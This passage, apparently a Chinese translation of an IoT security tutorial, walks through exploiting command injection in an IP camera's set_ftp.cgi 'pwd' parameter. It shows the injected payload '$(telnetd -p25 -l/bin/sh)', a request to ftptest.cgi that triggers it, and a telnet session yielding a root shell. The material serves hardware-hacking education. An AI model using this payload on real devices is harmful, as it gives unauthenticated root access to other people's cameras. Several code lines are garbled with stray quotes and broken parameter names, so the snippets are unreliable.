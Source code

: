 ```

</head> 

<body> 

</body> 

<html> 
```

1.  刷新到`ftp.htm`页面后，我们观察到 ICMP 数据包被发送到我们的主机计算机：

```
$ tcpdump host 192.168.1.177 and icmp

15:27:08.400966 IP 192.168.1.177 > 192.168.1.184: ICMP echo request, id 42832, seq 0, length 64
15:27:08.401013 IP 192.168.1.184 > 192.168.1.177: ICMP echo reply, id 42832, seq 0, length 64
15:27:09.404737 IP 192.168.1.177 > 192.168.1.184: ICMP echo request, id 42832, seq 1, length 64
15:27:09.404781 IP 192.168.1.184 > 192.168.1.177: ICMP echo reply, id 42832, seq 1, length 64
15:27:10.666983 IP 192.168.1.177 > 192.168.1.184: ICMP echo request, id 42832, seq 2, length 64
15:27:10.667031 IP 192.168.1.184 > 192.168.1.177: ICMP echo reply, id 42832, seq 2, length 64  
```

1.  现在我们知道`pwd`参数容易受到命令注入的攻击，我们的下一个目标是获取对目标设备的 shell 访问权限。我们知道 IP 摄像头包含基于 FTP 的传统守护程序，很可能也使用 Telnet。接下来，我们将调用 Telnet 在端口`25`上启动，并使用以下有效负载在没有用户名或密码的情况下进入 shell：

```
/set_ftp.cgi?next_url=ftp.htm&loginuse=admin&loginpas=admin&svr=192.168.1.1&port=21&user=ftp&pwd=$(telnetd -p25 -l/bin/sh)&dir=/&mode=PORT&upload_interva'=0'  
```

1.  我们还知道应用程序需要刷新`ftp.htm`页面以保存设置，但是在查看页面源代码时，它调用了一个名为`ftptest.cgi`的 CGI，执行我们的有效负载。以下是从`ftp.htm`页面执行我们的有效负载的代码片段：

```
function ftp_test() {              
   var url;              
   url'= 'ftptest.cgi?next_url=test_ftp.'tm';              
   url '= '&loginu'e=' + top.cookieuser'+ '&loginp's=' + encodeURIComponent(top.cookiepass);              
   window.open(ur"" """ "")         } 
```

1.  接下来，我们可以直接调用`ftptest.cgi`来保存我们的设置，使用以下`GET`请求：

```
/ftptest.cgi?next_url=test_ftp.htm&loginuse=admin&loginpas=ad'in'  
```

1.  Telnet 现在在端口`25`上运行，并给我们一个 root shell：

```
$ telnet 192.168.1.177 25
Trying 192.168.1.177...
Connected to 192.168.1.177.
Escape character 's '^]'.

/ # id
uid=0(root) gid=0
/ # mount
rootfs on / type rootfs (rw)
/dev/root on / type squashfs (ro,relatime)
/proc on /proc type proc (rw,relatime)
sysfs on /sys type sysfs (rw,relatime)
tmpfs on /dev type tmpfs (rw,relatime,size=2048k)
tmpfs on /tmp type tmpfs (rw,relatime,size=5120k)
devpts on /dev/pts type devpts (rw,relatime,mode=600,ptmxmode=000)
/dev/mtdblock3 on /system type jffs2 (rw,relatime)
/ # uname -a
```